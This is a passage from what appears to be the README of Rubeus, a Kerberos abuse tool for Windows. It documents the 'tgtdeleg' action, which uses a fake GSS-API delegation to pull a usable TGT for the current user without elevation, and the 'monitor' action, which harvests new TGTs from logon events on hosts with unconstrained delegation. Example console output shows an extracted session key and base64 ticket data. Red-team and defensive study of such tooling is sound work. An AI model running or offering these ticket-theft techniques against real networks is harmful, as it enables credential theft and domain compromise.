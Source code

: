         Base64EncodedTicket      :

          doIFNjCCBTKgAwIBBaEDAg...(snip)...


    [*] Enumerated 4 total tickets
    [*] Extracted  1 total tickets

**Note that this action needs to be run from an elevated context to extract usable TGTs!**


## tgtdeleg

The **tgtdeleg** using [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Kekeo](https://github.com/gentilkiwi/kekeo/) trick (**tgt::deleg**) that abuses the Kerberos GSS-API to retrieve a usable TGT for the current user without needing elevation on the host. AcquireCredentialsHandle() is used to get a handle to the current user's Kerberos security credentials, and InitializeSecurityContext() with the ISC_REQ_DELEGATE flag and a target SPN of HOST/DC.domain.com to prepare a fake delegate context to send to the DC. This results in an AP-REQ in the GSS-API output that contains a KRB_CRED in the authenticator checksum. The service ticket session key is extracted from the local Kerberos cache and is used to decrypt the KRB_CRED in the authenticator, resulting in a usable TGT .kirbi.

    C:\Rubeus>Rubeus.exe tgtdeleg

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.1.0


    [*] Action: Request Fake Delegation TGT (current user)

    [*] No target SPN specified, attempting to build 'HOST/dc.domain.com'
    [*] Initializing Kerberos GSS-API w/ fake delegation for target 'HOST/PRIMARY.testlab.local'
    [+] Kerberos GSS-API initialization success!
    [+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
    [*] Found the AP-REQ delegation ticket in the GSS-API output.
    [*] Authenticator etype: aes256_cts_hmac_sha1
    [*] Extracted the service ticket session key from the ticket cache: PrrVTn8MgR52epjaG5YnvZMAeCn1TnJn8QfuMh9lvw8=
    [+] Successfully decrypted the authenticator
    [*] base64(ticket.kirbi):

          doIFNjCCBTKgAwIBBaE...(snip)...


## monitor

The **monitor** action will monitor the event log for 4624 logon events and will extract any new TGT tickets for the new logon IDs (LUIDs). The /interval parameter (in seconds, default of 60) specifies how often to check the event log. A /filteruser:X can be specified, returning only ticket data for said user. This function is especially useful on servers with unconstrained delegation enabled ;)

